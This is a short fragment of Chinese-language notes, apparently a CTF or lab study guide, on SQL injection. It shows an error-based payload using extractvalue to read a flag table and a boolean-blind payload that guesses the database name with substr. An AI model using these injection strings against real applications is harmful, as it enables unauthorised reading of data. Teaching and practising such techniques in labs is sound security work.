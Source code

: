 ## 获取数据

```
1 and (extractvalue(1,concat(0x7e,(select flag from flag),0x7e))
```

![](assets/PixPin_2025-05-23_18-27-35.png)

# 布尔注入

注入点没有回显，只有True和Flase的情况下

常用的函数

![](assets/3713b5dc97ef3ca528e03a92d85045f9.jpeg)

## 获取数据库

```
1 and substr((select database()),1,1)='s'
```

![](assets/PixPin_2025-05-23_19-11-16.png)
